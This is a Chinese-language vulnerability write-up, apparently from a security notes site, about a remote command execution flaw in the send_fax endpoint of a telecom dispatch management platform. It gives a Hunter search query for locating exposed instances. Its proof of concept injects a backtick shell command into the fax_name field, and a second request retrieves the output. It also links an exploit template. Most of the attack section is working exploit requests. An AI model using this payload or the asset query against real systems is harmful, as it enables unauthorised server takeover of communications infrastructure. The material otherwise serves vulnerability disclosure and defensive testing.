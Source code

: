 # 指挥调度平台send_fax存在远程命令执行漏洞

# 一、漏洞简介
<font style="color:rgb(51, 51, 51);">指挥调度管理平台是一个专业针对通信行业的管理平台。该产品旨在提供高效的指挥调度喝管理解决方案，以帮助通信运营商或相关机构实现更好的运营效率和服务质量。该平台提供强大的指挥调度功能，可以实时监控和管理通信网络设备、维护人员和工作任务等。用户可以通过该平台发送指令、调度人员、分配任务。指挥调度平台send_fax存在远程命令执行漏洞，攻击者可通过该漏洞获取服务器权限。</font>

# <font style="color:rgb(51, 51, 51);">三、资产测绘</font>
+ <font style="color:rgb(51, 51, 51);">hunter</font>`<font style="color:rgb(51, 51, 51);">web.body="app/structure/departments.php"</font>`
+ <font style="color:rgb(51, 51, 51);">特征</font>

![1701096622884-9c34ec74-7f59-464c-b435-5a6ccd465c74.png](./img/ObPXNwJRo2S4XdO_/1701096622884-9c34ec74-7f59-464c-b435-5a6ccd465c74-954994.png)

# <font style="color:rgb(51, 51, 51);">四、漏洞复现</font>
```plain
POST /api/client/fax/send_fax.php HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:121.0) Gecko/20100101 Firefox/121.0
Content-Length: 29
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Connection: close
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1

fax_name=`whoami > 1.txt`.pdf
```

![1706073841954-f6338ebb-177f-401c-b470-20545bad6ec1.png](./img/ObPXNwJRo2S4XdO_/1706073841954-f6338ebb-177f-401c-b470-20545bad6ec1-509394.png)

获取命令执行结果

```plain
GET /api/client/fax/1.txt HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=9d162ed31bcb785f6f5cb1fcc92dfff2
Upgrade-Insecure-Requests: 1
```

![1706073883647-6d19d499-6d63-4239-b337-f757006f5d16.png](./img/ObPXNwJRo2S4XdO_/1706073883647-6d19d499-6d63-4239-b337-f757006f5d16-090767.png)

[福建科立讯通信-指挥调度平台-send-fax-远程命令执行.yaml](https://www.yuque.com/attachments/yuque/0/2024/yaml/1622799/1709222143771-9a0b3a4a-d028-4593-a184-ee7c7d7dad61.yaml)



> 更新: 2024-02-29 23:55:44  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/ficwasc2nrssf2yb>